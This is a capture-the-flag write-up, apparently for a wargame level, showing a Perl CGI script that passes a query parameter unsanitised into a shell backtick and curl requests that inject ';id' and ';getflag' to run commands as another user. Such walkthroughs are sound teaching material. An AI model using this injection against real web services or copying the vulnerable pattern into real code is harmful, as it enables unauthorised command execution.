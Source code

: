 # foothold

I already know somethings about the `level04`, in the initial emuration I
discover that this user does not have an apache site, but has a
`/var/www/level04` directory.

Now, I see that it has a `level04.pl` file in the user home.

Looking at the Apache config I enumerated at the start, it's obviusly using
`perl` CGI and running on the port 4747, so let's see what does this script.

# exploit

Well, at first I didn't wanted to belive it, but indeed, this has to be the
easiest command injection I found.

As we can see, it's just a script that prints in the web, the relust of the
command `echo`:
```perl
print `echo $y 2>&1`
```

*And it redirects the stderr wtf.*

So, where does `y` come from? Easy my friend:
```perl
# ...
use CGI qw{param}
print "Content-type: text/html\n\n"
sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
}
x(param("x"));
```

First things first, the first line imports the function `param()` from the CGI
module.

Next it prints the header for the web response, irrelevant.

After that, this code declares a function `x()`, in which it uses `$_[0]`
in a command.

In perl, `$_[0]` is basically the `argv[1]` in C, or `$1` in bash, is the first
argument, so the injection is on the argument passed to the `x()` function.

At the end, the code calls `x()`, with the argument `param("x");`.

So... what could the function `param()` from the CGI module possibly do...

Indeed, it takes the value of a param from te query string.

So... yeah, let's do some `curl` magic:
```bash
curl -v http://localhost:4747?x=paco
```

And it prints `paco`! Magic!

Now the injection, remember that we need to url encode any special characters:
```bash
curl -v 'http://localhost:4747?x=%3Bid'
```

It prints that I'm the `flag04` user, so lets call `getflag` directly:
```bash
curl -v 'http://localhost:4747?x=%3Bgetflag'
```

And I got it, nice!
